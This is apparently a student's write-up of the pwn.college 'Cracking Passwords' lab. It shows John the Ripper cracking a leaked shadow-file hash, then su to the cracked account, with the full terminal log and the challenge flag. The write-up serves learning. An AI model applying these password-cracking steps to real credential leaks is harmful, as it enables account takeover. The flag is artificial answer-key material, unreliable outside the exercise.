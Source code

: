 # Cracking Passwords
The challenge asks you to open the terminal in the pwn.college DOJO and invoke John the Ripper to obtain the desired result.       

## My Solve
**Flag:** 'pwn.college{sYsXJicXChg2cFS8-yesz_8Q4M_.QX3UDN1wCO1gjNzEzW}'    

Here,we are asked to switch to zardus and run the '/challenge/run' command to get the flag,but we do not know the password to zardus.Hence we take the help of John the ripper who has cracked the password to the user,by using 'john /challenge/shadow-leak'(/challenge/shadow-leak has the leak of passwords from /etc/shadow) and we wait for sometime till it cracks the password after whitch it says "session completed".After this,we run the command "john --show /challenge/shadow-leak" which is used to show all the cracked passwords,among which is the password for the user 'zardus'.Hence we use 'su zardus' and enter the password to switch to that user.Then,we run the '/challenge/run' command which succesfully gives the flag value.     
'''      
Connected!                                                                              
hacker@users~cracking-passwords:~$ john /challenge/shadow-leak      
Loaded 1 password hash (crypt, generic crypt(3) [?/64])        
Press 'q' or Ctrl-C to abort, almost any other key for status     
aardvark         (zardus)       
1g 0:00:00:21 100% 2/3 0.04714g/s 274.5p/s 274.5c/s 274.5C/s Johnson..buzz      
Use the "--show" option to display all of the cracked passwords reliably      
Session completed       
hacker@users~cracking-passwords:~$ john --show /challenge/shadow-leak      
hacker:NO PASSWORD:20357:0:99999:7:::     
zardus:aardvark:20360:0:99999:7:::       
      
2 password hashes cracked, 0 left       
hacker@users~cracking-passwords:~$ su zardus       
Password:       
zardus@users~cracking-passwords:/home/hacker$ /challenge/run       
Congratulations, you have become Zardus! Here is your flag:        
pwn.college{sYsXJicXChg2cFS8-yesz_8Q4M_.QX3UDN1wCO1gjNzEzW}       
zardus@users~cracking-passwords:/home/hacker$          
'''       

## What I Learnt
I learnt the use of the 'john' command which can be used to crack passwords due to a leak in the '/etc/shadow' files.      

## References
None.       

<img width="747" height="284" alt="image" src="https://github.com/user-attachments/assets/5ea54417-c38f-42ca-aa22-222006d89875" />
